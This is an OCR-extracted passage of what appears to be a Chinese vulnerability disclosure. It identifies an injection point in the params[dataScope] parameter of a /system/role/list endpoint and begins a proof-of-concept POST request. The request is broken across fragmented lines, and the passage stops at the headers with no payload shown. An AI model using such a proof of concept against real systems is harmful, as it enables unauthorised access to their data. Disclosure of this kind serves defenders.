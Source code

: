 注入点一：：  
在/system/role/list接口的params[dataScope]参数  
  
POC如下：  
  
POST  
 /system/role  
/list  
 HTTP/  
1  
.  
1  
            
  
Host  
:   
            
  
Content  
-Length:   
179  
            
  
sec  
-ch-ua:   
"Chromium"  
;v=  
"109"  
,   
"Not_A Brand"  
;v=  
"99"  
            
  
Accept  
: application/json, text/javascript, */*; q=  
0  
.  
01  
            
  
Content  
-Type: application/x-www-form-urlencoded  
            
  
X  
-Requested-With: XMLHttpRequest  
            
  
sec  
-ch-ua-mobile: ?  
0  
            
  
User  
-Agent:   
            
  
Cookie  
:   
            